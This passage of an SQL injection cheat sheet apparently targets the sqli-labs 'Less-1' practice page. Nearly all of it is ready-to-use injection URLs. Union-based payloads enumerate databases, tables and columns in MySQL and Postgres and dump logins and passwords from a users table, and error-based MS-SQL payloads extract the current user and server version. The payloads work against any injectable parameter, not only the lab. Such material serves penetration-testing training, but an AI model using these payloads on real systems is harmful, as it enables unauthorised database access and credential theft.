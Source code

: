 **postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

#### Finding column names from a table

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```
**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`
